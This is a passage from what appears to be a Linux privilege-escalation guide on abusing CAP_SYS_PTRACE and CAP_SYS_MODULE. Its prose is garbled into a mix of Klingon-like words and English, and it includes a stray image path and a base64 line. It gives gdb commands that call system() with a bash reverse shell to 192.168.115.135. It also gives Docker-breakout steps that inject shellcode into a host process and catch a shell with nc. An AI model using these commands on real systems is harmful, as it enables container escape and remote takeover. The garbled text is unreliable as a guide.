 **GDB** **DaH** vItlhutlh (be'vam 'ej vItlhutlh 'ej `apk add gdb` 'ej `apt install gdb` jatlh) **debug vay'** 'ej 'oH **'ejnIS** 'ej vItlhutlh 'ej 'oH **`system`** vItlhutlh. (vItlhutlh **capability** `SYS_ADMIN` **yInob** **vItlhutlh** **technique** **'ejnIS** **DaH** **yInob**).
```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```
bIQtID0gQ29tbWFuZCBkYXRhIGluZGV4ZXMgdG8gdGhlIGV4ZWN1dGVkIGJ5IHRoYXQgcHJvY2VzcyAoc28gZ2V0IGEgcmV2IHNoZWxsLg==

{% hint style="warning" %}
ghobe' "No symbol "system" in current context." check the previous example loading a shellcode in a program via gdb.
{% endhint %}

**Example with environment (Docker breakout) - Shellcode Injection**

You can check the enabled capabilities inside the docker container using:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```
**ps -eaf** `ps -eaf` **host**-**'ej** **running** **processes** **list**.

1. **'ej** **architecture** **'oH** `uname -m`
2. **'ej** **shellcode** **architecture** **'e'** ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. **'ej** **program** **shellcode** **inject** **process** **memory** ([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c))
4. **'ej** **shellcode** **program** **modify** **compile** `gcc inject.c -o inject`
5. **'ej** **inject** **grab** **shell**: `./inject 299; nc 172.17.0.1 5600`

## CAP\_SYS\_MODULE

**[`CAP_SYS_MODULE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** **process** **'e'** **kernel modules (`init_module(2)`, `finit_module(2)` **'ej** **delete_module(2)` **system calls)** **load** **unload** **empowers**, **kernel** **core operations** **direct access** **offer**. **capability** **'e'** **critical security risks**, **privilege escalation** **total system compromise** **allowing modifications** **kernel**, **Linux security mechanisms**, **Linux Security Modules** **container isolation** **bypassing**.
**'ej** **insert/remove kernel modules** **kernel** **host machine**.
